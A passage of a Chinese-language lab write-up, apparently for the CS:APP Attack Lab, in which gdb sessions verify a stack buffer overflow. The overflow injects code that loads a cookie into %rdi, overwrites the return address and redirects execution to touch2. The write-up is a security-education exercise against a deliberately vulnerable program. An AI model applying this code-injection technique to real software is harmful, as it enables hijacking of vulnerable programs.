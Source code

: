 ```
(gdb) p $rsp
$1 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x0000000000401976
```

然后rsp-0x28，我们发现我们输入的数据应该在以地址为`0x5561dca0 - 0x28 = 0x5561dc78`为最低地址然后向上增长，使用gdb进行调试查看是否正确。

```
0x5561dc78:     0x6859b997fac7c748      0x313131c3004017ec
0x5561dc88:     0x3131313131313131      0x3131313131313131
0x5561dc98:     0x3131313131313131      0x000000005561dc78
```

查看 0x5561dc78 地址处的值与我们输入的值是一致的。

查看getbuf的ret情况，可以看出rsp指向的内存值不在是程序预期的，而是我们期望的注入代码的值。

```
(gdb) p $rsp
$2 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x000000005561dc78
```

不断地调试代码可以发现程序的执行过程与我们期望的过程是否一致。

```
(gdb) p $rip
$3 = (void (*)()) 0x4017bd <getbuf+21>
(gdb) si
0x000000005561dc78 in ?? ()
(gdb) p $rip
$4 = (void (*)()) 0x5561dc78
```

查看mov    $0x59b997fa,%rdi

```
(gdb) p /x $rdi
$6 = 0x7ffff7dcda00
(gdb) si
0x000000005561dc7f in ?? ()
(gdb) p /x $rdi
$7 = 0x59b997fa
```

查看pushq $0x4017ec   retq

```
(gdb) p $rsp
$9 = (void *) 0x5561dca0
(gdb) x/1gx $rsp
0x5561dca0:     0x00000000004017ec
(gdb) p $rip
$10 = (void (*)()) 0x5561dc84
(gdb) si
touch2 (val=1505335290) at visible.c:40
40      visible.c: No such file or directory.
(gdb) p $rip
$11 = (void (*)()) 0x4017ec <touch2>
```
